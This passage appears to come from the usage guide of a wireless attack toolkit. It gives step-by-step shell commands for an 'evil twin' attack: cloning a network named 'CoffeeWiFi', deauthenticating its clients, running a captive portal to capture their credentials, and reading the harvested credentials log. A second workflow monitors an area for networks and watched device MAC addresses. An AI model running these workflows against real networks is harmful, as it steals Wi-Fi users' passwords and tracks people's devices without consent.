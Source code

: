 
### Workflow 2: Evil Twin with Credential Capture

**Goal:** Clone network, capture credentials

**Via SSH Only (Portal requires SSH):**

```bash
# Step 1: Identify target
./01-recon-pipeline.sh wlan0 30

# Step 2: Launch evil twin with portal
./03-evil-twin.sh AA:BB:CC:DD:EE:FF 6 'CoffeeWiFi' wlan0 wlan1 true

# Confirmation prompt:
⚠ This will launch a rogue access point and deauth attack.
Continue? (yes/no): yes

# Step 3: Monitor connections in real-time
# Watch for clients connecting
# Let it run...

# Step 4: Stop (Ctrl+C) and review
cat /root/evil-twin/report_*.txt
cat /var/log/evil-portal/credentials.log

# Step 5: Cleanup
bh wifi ap stop
```

---

### Workflow 3: Continuous Monitoring with Alerts

**Goal:** Monitor area for new networks or specific devices

**Via SSH:**

```bash
# Monitor with watchlist (comma-separated MACs)
./05-network-monitor.sh wlan0 15 /root/monitor AA:BB:CC:DD:EE:FF,11:22:33:44:55:66

# Alerts will show:
# - New networks appearing
# - Watched MACs detected
# - Signal strength changes
# - Networks disappearing

# Let run for duration needed...

# Review alerts
cat /root/monitor/alerts_*.log

# Check database
cat /root/monitor/networks.db
```

